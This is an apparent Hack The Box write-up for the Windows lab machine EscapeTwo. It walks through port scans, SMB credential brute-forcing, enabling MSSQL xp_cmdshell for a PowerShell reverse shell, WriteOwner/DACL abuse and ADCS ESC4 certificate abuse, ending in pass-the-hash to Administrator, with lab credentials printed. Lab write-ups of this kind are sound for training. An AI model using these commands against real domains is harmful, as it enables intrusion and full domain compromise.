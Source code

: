 
---
date: 2025-06-28
categories: [Windows, Easy, AD]
---

![EscapeTwo](https://labs.hackthebox.com/storage/avatars/d5fcf2425893a73cf137284e2de580e1.png)

---

| **Created by** | **Page**     | **Difficulty** | **OS**  |
|-------------|--------------|----------------|---------|
| [ruycr4ft](https://app.hackthebox.com/users/1253217) & [Llo0zy](https://app.hackthebox.com/users/1615089)        | [Hack The Box](https://www.hackthebox.com/)     | Easy           | Windows   |

---








 - I began with a full TCP port scan, followed by a service and version detection scan on the discovered open ports

	```python
	nmap -p- --open --min-rate 5000 -Pn -sS 10.10.11.51 -oG scan
	/opt/extractports scan
	nmap -p53,88,135,139,389,445,464,593,636,1433,3268,3269,5985,9389,47001,49664,49665,49666,49667,49685,49686,49687,49702,49718,49739,49807 -sCV -Pn 10.10.11.51 -oN ports
	```

	![image](https://github.com/user-attachments/assets/a4401c2d-573a-4406-9cb8-092f567e3286)

- I found the domain `sequel.htb` and `DC01.sequel.htb` and add it to the file in the `hosts` file.

## Initial Access (SMB Enumeration)

- Hack The Box provided initial credentials:
	```python
	Username: rose  
	Password: KxEPkKe6R8su
	```

- Using `netexec`, I enumerated accessible SMB shares:

	```python
	netexec smb 10.10.11.51 -u rose -p KxEPkKe6R8su --shares
	```

- The share named `Accounting Department` was accessible. I mounted it using `smbclient`:

	```python
	smbclient  //10.10.11.51/"Accounting Department" -U "rose"
	```

- Inside the share, I found two `.xlsx` files containing several potential credentials. I brute-forced SMB logins with these using:

	```python
	netexec smb 10.10.11.51 -u users -p pass --continue-on-success
	```

- This revealed that the user `oscar` had valid credentials, although they didn’t provide further access.

## Exploiting MSSQL Service

- Continuing the brute-force process, I discovered that the `sa` account had valid credentials on the MSSQL service. I connected using `impacket-mssqlclient`:
	
	```python
	impacket-mssqlclient sa@10.10.11.51
	```
	

- I try to execute command using “xp_cmdshell” and it is not enabled.

```python
	EXEC xp_cmdshell 'dir C:\'
```

- Initially, `xp_cmdshell` was disabled. I attempted to enable it using the following commands:

	```python
	EXEC sp_configure 'show advanced options', 1;
	RECONFIGURE;
	EXEC sp_configure 'xp_cmdshell', 1;
	RECONFIGURE;
	EXEC xp_cmdshell 'dir C:\';
	```


- Once enabled, I generated a reverse shell payload using [revshells.com](https://www.revshells.com) and executed it through `xp_cmdshell`:

	```python
	EXEC xp_cmdshell 'powershell -e <Base64 encoded payload>';
	```

- On my listener:

	```python
	nc -nlvp 4444
	```

- Having already a shell as the user sa, I search through the files and I find inside the SQL2019 directory a configuration file “sql-Configuration.INI” that contains some credentials.


## Privilege Escalation to ryan (WinRM)

- While exploring the file system with the `sa` shell, I located a file `sql-Configuration.INI` in the `SQL2019` directory, which contained credentials for the `ryan` user.

- I confirmed that `ryan` was a member of the _Remote Management Users_ group, allowing WinRM access:

	```python
	evil-winrm -i 10.10.11.51 -u ryan -p WqSZAF6CysDQbGb3
	```

- After logging in successfully, I retrieved the first flag.

## Enumeration with BloodHound

- To identify privilege escalation paths, I collected data using `bloodhound-python`:

	```python
	bloodhound-python -c all -u ryan -p WqSZAF6CysDQbGb3 -ns 10.10.11.51 -d sequel.htb
	```

- Analysis revealed that the user `ryan` had `WriteOwner` permissions over the `ca_svc` user. This permission allows changing ownership and resetting the password.

![image](https://github.com/user-attachments/assets/3c74da8f-424b-43dd-b8b2-412d32cfadf1)

## Abusing WriteOwner Rights

- Following the methodology described in [HackingArticles](https://www.hackingarticles.in/abusing-ad-dacl-writeowner/), I used Impacket tools to change ownership and grant full control:

	```python
	python3 owneredit.py  -action write -new-owner 'ryan' -target-dn 'CN=Certification Authority,CN=Users,DC=sequel,DC=htb' 'sequel.htb'/'ryan':'WqSZAF6CysDQbGb3' -dc-ip 10.10.11.51
	```

- Then granted `FullControl`:

	```python
	python3 dacledit.py -action 'write' -rights 'FullControl' -principal 'ryan' -target-dn 'CN=Certification Authority,CN=Users,DC=sequel,DC=htb' 'sequel.htb'/'ryan':'WqSZAF6CysDQbGb3' -dc-ip 10.10.11.51
	```

- Finally, I changed the password:

	```python
	net rpc password ca_svc  'PepePepe' -U sequel.htb/ryan%'WqSZAF6CysDQbGb3' -S 10.10.11.51
	netexec smb 10.10.11.51 -u ca_svc -p 'PepePepe'
	```

## ADCS Exploitation (ESC4)

- With access to `ca_svc`, I enumerated certificate templates using `certipy-ad`:

	```python
	certipy-ad find -u ca_svc -p 'PepePepe' -dc-ip 10.10.11.51 -stdout -enabled -vulnerable
	```

- One of the templates was vulnerable to [ESC4](https://adminions.ca/books/abusing-active-directory-certificate-services/page/esc4). I used `certipy-ad` to request a certificate with the UPN set to `Administrator`:

	```python
	certipy-ad template -u 'ca_svc@sequel.htb' -p 'PepePepe' -template DunderMifflinAuthentication -save-old -dc-ip 10.10.11.51
	
	certipy-ad req -u 'ca_svc@sequel.htb' -p 'PepePepe' -ca sequel-DC01-CA -template DunderMifflinAuthentication -upn Administrator
	
	certipy-ad auth -pfx administrator.pfx -username Administrator -domain sequel.htb
	```

- With the certificate, I obtained the hash for the `Administrator` account and logged in using Evil-WinRM:

	```python
	evil-winrm -i 10.10.11.51 -u Administrator -H 7a8d4e04986afa8ed4060f75e5a0b3ff
	```

- This granted me full administrative access and allowed retrieval of the final flag.
